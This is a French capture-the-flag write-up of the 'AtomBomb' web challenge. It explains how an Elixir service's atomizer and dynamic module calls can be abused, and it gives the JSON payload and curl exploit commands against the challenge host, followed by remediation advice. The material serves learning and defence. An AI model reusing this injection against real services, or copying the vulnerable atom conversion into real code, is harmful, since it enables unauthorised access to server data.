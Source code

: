 # AtomBomb

## Description de l’épreuve

Le challenge "AtomBomb" est une épreuve de type web/service où l’on interagit avec un serveur écrit en Elixir. Le point de départ pour l'exploit était un service HTTP qui acceptait un JSON en POST sur une route ``/bomb_impacts``, censé contenir des informations sur une bombe (altitude, type d’explosion, puissance, etc.). Le but était de déclencher une exécution inattendue ou une erreur du serveur afin de récupérer un flag.

Contrairement aux services REST classiques, ce backend repose sur Elixir (et Phoenix), un framework fonctionnel. Le nom de l’épreuve et certains comportements du serveur suggéraient une vulnérabilité liée aux atoms, une structure de données particulière à Elixir.

## Analyse des artefacts et identification des indices

Le serveur s'attendait à recevoir un objet JSON avec une clé ``impact`` contenant les détails d’une bombe. Par exemple :
```json
{
  "impact": {
    "bomb": {
      "location": "florida",
      "altitude": "low_altitude",
      "power": 363,
      "explosion_type": 4
    }
  }
}
```

Une tentative de fuzzing a révélé que certaines erreurs côté serveur faisaient référence à des atoms inconnus, ce qui nous a amené à se concentrer sur le ``:`` dans Elixir, la fonction ``String.to_existing_atom/1`` ne crée pas de nouvel atom mais échoue si l’atom n’existe pas déjà. Cela ouvre la voie à un crash contrôlé ou même à une exécution de code si d'autres modules sont appelés dynamiquement.

Le code source du backend a confirmé cette intuition. Dans le controller :

```elixir
defmodule AtomBomb.PageController do
# (...)
  def get_bomb_impacts(conn, params) do
    params = AtomBomb.atomizer(params)
    danger_message = AtomBomb.calculate_bomb_danger_level(params.impact.bomb)
    render(conn, :danger_level, danger_message: danger_message)
  end
end
```

La ligne vulnérable est :
``params = AtomBomb.atomizer(params)``

Elle appelle la fonction ``atomizer/1`` définie dans le module AtomBomb, dont voici le passage critique :

```elixir
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

Cette fonction convertit toute chaîne commençant par ``:`` en un atom Elixir existant. Si ce champ correspond à un nom de module valide (par exemple ``":Elixir.AtomBomb"``), il devient littéralement l’atom ``Elixir.AtomBomb``.
<br>
Ensuite, dans une autre partie du code, si ce champ est utilisé dans un ``apply/3`` (par exemple ``apply(mod, :bomb, [])``), cela permet d'exécuter n’importe quelle fonction ``bomb/0`` d’un module existant. Le module ``AtomBomb`` inclut justement une telle fonction :

```elixir
def bomb() do
  flag = case File.read("flag.txt") do
    {:ok, flag} -> flag
    {:error, _} -> "bctf{REDACTED}"
  end
  "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
end
```

Alors, un test avec un payload du type :
```json
{
  "impact": ":Elixir.AtomBomb"
}
```
Et donc on obtiendrait:
`` danger_message = AtomBomb.calculate_bomb_danger_level(Elixir.AtomBomb.bomb)``

ce qui nous donne le flag.

## Recherches effectuées

### Documentation officielle : <br> https://hexdocs.pm/elixir/String.html#to_existing_atom/1

### Résumé utile :

* ``String.to_existing_atom("foo")`` échoue si ``:foo`` n'existe pas.

* Les atoms ne sont pas garbage-collected et peuvent faire planter l'application si on en crée trop (atom leak).

* Certaines fonctions essaient de convertir dynamiquement des chaînes en atoms pour appeler des modules/fonctions, c’est là qu’on peut injecter quelque chose de spécial.

## Tentatives et actions mises en œuvre

1. Envoi de payloads valides (structure correcte, sans injection) → réponses standards.

2. Envoi de chaînes invalides dans les clés ou valeurs → erreurs mais sans flag.

3. Hypothèse sur l’usage de to_existing_atom → tests avec valeurs "piégées".

4. Injection de ":Elixir.AtomBomb" dans le champ impact → déclenchement du flag.

## CWE associées

* **CWE-138: Improper Neutralization of Special Elements** — Usage dangereux de fonctions de conversion type eval, to_atom, etc.

* **CWE-502: Deserialization of Untrusted Data** — Même si ce n'est pas de la désérialisation au sens strict, il s’agit d’un traitement non-sécurisé de données entrantes.

## Flag obtenu

``bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}``

Ce flag souligne bien mon état après l'avoir eu lol.

## Code des exploits et payloads

```sh
curl -X POST http://localhost:6888/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```
```sh
curl -X POST https://atom-bomb.atreides.b01lersc.tf/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```

Ce simple payload suffit à déclencher la réponse contenant le flag si le backend tente de convertir ce champ en atom et l’évalue ensuite.

## Améliorations recommandées

* Éviter la conversion dynamique de chaînes en atoms avec String.to_atom/1 ou to_existing_atom/1, sauf si les entrées sont rigoureusement contrôlées.

* Utiliser des correspondances explicites (case ou Map) pour valider les valeurs reçues et les transformer en atoms si nécessaire.

* Ne jamais utiliser apply/3 sur des modules définis par l'utilisateur ou construits dynamiquement à partir d'entrée non fiable.

* Séparer le parsing de l’entrée utilisateur de la logique métier sensible (comme l’appel à une fonction de lecture de fichier contenant un flag).
